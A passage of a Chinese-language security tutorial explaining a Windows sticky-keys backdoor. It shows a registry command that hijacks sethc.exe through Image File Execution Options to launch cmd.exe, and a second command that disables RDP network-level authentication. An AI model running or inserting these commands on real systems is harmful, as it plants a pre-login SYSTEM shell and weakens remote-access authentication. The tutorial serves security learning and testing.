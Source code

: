 #### [](#112-%E6%96%B0%E6%96%B9%E6%B3%95)1.1.2 新方法

新方法设置粘滞键后门是通过注册表来实现，整体的方法思路就是`通过修改注册表的映像劫持`和`打开其远程桌面`来实现。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```powershell<br>REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"<br>``` |

**命令说明**：reg add 是向注册表添加记录，后面跟的是注册表的位置，这里需要注意的是 HKLM 实际上是 HKEY\_LOCAL\_MACHINE 的缩写。Image File Execution Option 这个目录就是用来设置镜像劫持的，要被劫持的就是命令中的 sethc 粘滞键程序，随后通过 /v 来指定键名，这个键名 debugger 是固定的，然后通过 /t 来指定类型，即 REG\_SZ 字符串类型，最后通过 /d 来指定键的值，即被恶意替换的程序，也就是我们的 cmd。

设置完镜像劫持后就已经有了我们旧方法中直接替换 sethc 程序的效果，但我们为了方便利用，可以开启目标机的远程桌面，这里我们也通过注册表来设置一下，需要设置两个参数。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201207150256.png-water_print](assets/1699409504-db18b1fc475bf61924faca6458c79126.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201207150256.png-water_print")

##### [](#1121-%E5%85%B3%E9%97%AD-rdp-%E7%94%A8%E6%88%B7%E9%89%B4%E5%AE%9A%E9%80%89%E9%A1%B9)1.1.2.1 关闭 RDP 用户鉴定选项

第一个是把远程桌面链接的用户鉴定选项设置为关闭状态，即值为 0，命令行运行以下命令：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```powershell<br>REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0<br>``` |
